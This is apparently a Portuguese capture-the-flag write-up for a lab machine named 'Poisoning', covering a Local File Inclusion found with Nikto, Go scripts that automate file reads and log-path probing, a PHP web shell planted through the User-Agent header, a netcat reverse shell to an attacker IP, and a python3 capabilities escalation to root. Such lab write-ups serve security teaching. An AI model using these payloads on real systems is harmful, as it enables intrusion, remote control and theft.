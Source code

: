 # Poisoning.

---

Eaí, hackers! Bem-vindes a mais um writeup das máquinas da tropa 🥳. Nesta resolução, nós realizaremos a máquina **Poisoning**, onde exploraremos na mesma um **Local File Inclusion** e pegaremos RCE nela através da técnica chamada **Log Poisoning**. Sem mais enrolações, vamos lá!

```jsx
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu
80/tcp open  http    syn-ack Apache httpd 2.4.29 
```

---

### Reconhecimento web. 🔍

Quando nós abrimos a página do site em nosso navegador, nos deparamos com a seguinte interface:

![Untitled](Poisoning%200749356350ea47c69e78814c712333a2/Untitled.png)

Eu passei um bom tempo analisando a página, as requisições, o código-fonte, as libs em javascript .. e nada 🤧. Então, eu decidi utilizar um scan que eu usava há muito tempo e que hoje foi essencial: **Nikto**. Rodando ele, o mesmo achou um **Local File Inclusion**! 

```jsx
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.9.2.11
+ Target Hostname:    10.9.2.11
+ Target Port:        80
+ Start Time:         2021-09-19 23:54:55 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php)
```

A falha consiste quando o back-end confirma a variável que irá puxar o path do arquivo como algo não manipulável, mas na verdade é. Com a não validação do back-end para verificar o path do arquivo, o hacker consegue controlar qual arquivo ele deseja ver desde que tenha privilégio para isso.

Partindo para a prática, vamos tentar ler o arquivo **/etc/passwd** com o parâmetro "**?page=/etc/passwd**". Vamos ver:

![Untitled](Poisoning%200749356350ea47c69e78814c712333a2/Untitled%201.png)

E, conseguimos 🥵! Pra quem já é de costume nos meus writeups, sabem que eu sempre gosto de criar um scriptzinho pra agilizar a bagunça. Aqui está o meu código:

```go
package main
import (
	"fmt"
	"strings"
	"net/http"
	"io/ioutil"
)

func Between(str, starting, ending string) string {
    s := strings.Index(str, starting)
    if s < 0 {
        return ""
    }
    s += len(starting)
    e := strings.Index(str[s:], ending)
    if e < 0 {
        return ""
    }
    return str[s : s+e]
}

func lfi(url string){
	req, err := http.Get(url)
	if err != nil{ panic(err) }

	body, err := ioutil.ReadAll(req.Body)
	if err != nil{ panic(err) }
	fmt.Print(Between(string(body),"<b>","</b>"))
}

func main(){
	for {
		var payload string
		fmt.Println(" ")
		fmt.Print("enjoy :/ ")
		fmt.Scan(&payload)
		site := "http://10.9.2.11/index.php?page=" + payload
		lfi(site)
	}
}
```

Com isso, eu preciso apenas especificar o arquivo que eu quero ler e está feito! 😶‍🌫️

![Untitled](Poisoning%200749356350ea47c69e78814c712333a2/Untitled%202.png)

### LFI to RCE com Log Poisoning. 👽

E agora vamos para o tão falado Remote Code Execution! Pesquisando mais sobre a vulnerabilidade, eu pude encontrar uma lista de path de arquivos que podem gerar um Log Poisoning. Para não testar de um por um, eu desenvolvi mais um script que faça isso por mim.

```go
package main
import (
	"os"
	"fmt"
	"bufio"
	"strings"
	"net/http"
	"io/ioutil"
)

func Between(str, starting, ending string) string {
    s := strings.Index(str, starting)
    if s < 0 {
        return ""
    }
    s += len(starting)
    e := strings.Index(str[s:], ending)
    if e < 0 {
        return ""
    }
    return str[s : s+e]
}

func lfi(url string){
	req, err := http.Get(url)
	if err != nil{ panic(err) }

	body, err := ioutil.ReadAll(req.Body)
	if err != nil{ panic(err) }
	fmt.Print(Between(string(body),"<b>","</b>"))
}

func main(){

	file, err := os.Open("poisoning.txt") // especificar o path da wordlist
	 
	if err != nil {
		fmt.Println("falha ao ler arquivo, favor verificar o path.")
	}
 
	scanner := bufio.NewScanner(file)
	scanner.Split(bufio.ScanLines)
	var txtlines []string
 
	for scanner.Scan() {
		txtlines = append(txtlines, scanner.Text())
	}
	 
	file.Close()
 
	for _, eachline := range txtlines {
		fmt.Println(eachline)
		site := fmt.Sprintf("http://10.9.2.11/index.php?page=%s", eachline)
		lfi(site)
	}
}
```

Com isso, pegamos o resultado! 👾

![Untitled](Poisoning%200749356350ea47c69e78814c712333a2/Untitled%203.png)

Vemos que o arquivo **/var/log/apache2/access.log** aparece para nós. Ou seja, nós temos acesso para o mesmo. Com isso, vamos realizar a técnica de **Log Poisoning**. Tal técnica consiste em adicionarmos um código de webshell em nosso **User-Agent**, e posteriormente acessarmos o arquivo de logs com o parâmetro especificado na webshell. Com isso, nós conseguiremos utilizar a nossa webshell com efetividade através do envenenamento dos logs. Vamos ver em prática:

![Untitled](Poisoning%200749356350ea47c69e78814c712333a2/Untitled%204.png)

![Untitled](Poisoning%200749356350ea47c69e78814c712333a2/Untitled%205.png)

```php
<?php system($_GET['c']); ?>
```

### Reverse shell! 😈

Agora ficou fácil! Vamos pegar a reverse shell. Para isso, eu utilizei uma reverse em netcat e URL Encode. Aqui está ela:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 1234 >/tmp/f
```

![Untitled](Poisoning%200749356350ea47c69e78814c712333a2/Untitled%206.png)

### Escalação de Privilégios. 📈

Enumerando um pouco a máquina, nos deparamos com um misconfiguration de **capabilities do python 3.6**. Para isso, basta executarmos este comando e pegmaos root:

```python
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![Untitled](Poisoning%200749356350ea47c69e78814c712333a2/Untitled%207.png)

[Meus writeups.](https://www.notion.so/Meus-writeups-d30b3cfa2b3b4eaa93eff0967ffa17ce)